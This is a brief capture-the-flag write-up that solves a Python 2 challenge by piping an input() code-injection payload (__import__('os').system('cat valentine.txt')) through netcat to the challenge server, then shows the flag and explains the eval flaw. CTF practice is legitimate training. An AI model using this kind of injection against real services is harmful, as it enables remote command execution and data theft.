 echo '__import__("os").system("cat valentine.txt")' | nc 0.cloud.chals.io 34293

Flag: valentine{0ops_i_go7_hydrog3n_ball00n5_NONOWHEREAREYOUGOINGWITHTHATLIGHTER}


Since it's python 2, you can exploit the use of input().
If importing os, you can use system to execute arbitrary code. In this case you just want to cat valentine.txt